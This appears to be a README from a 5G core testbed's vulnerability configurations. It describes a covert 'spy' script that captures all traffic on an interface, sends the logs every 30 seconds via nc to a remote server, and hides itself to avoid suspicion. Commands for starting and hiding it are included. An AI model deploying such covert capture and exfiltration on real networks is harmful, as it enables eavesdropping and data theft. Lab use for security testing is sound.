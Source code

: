 # Start a Spy!

This spy saves all traffic on an interface and forwards every 30 seconds the log to a spy server elsewher. The output is supressed adn the porccess is run in the background to keep suspicion at bay.

Keep in mind that at the spy server location an nc server needs to be running with the correct port to recieve the logs. (The spy server can be a ue ;) )

To call the spy:
```console
user@Core:~/5G/CORE_VM/Config_Files/Vulnerability_Configs/Spy$ ./call_spy.sh -i <interface to log>, -s <spy server ip>, -p <spy server port>
```
End/hide the spy:
```console
user@Core:~/5G/CORE_VM/Config_Files/Vulnerability_Configs/Spy$ ./hide_spy.sh
```
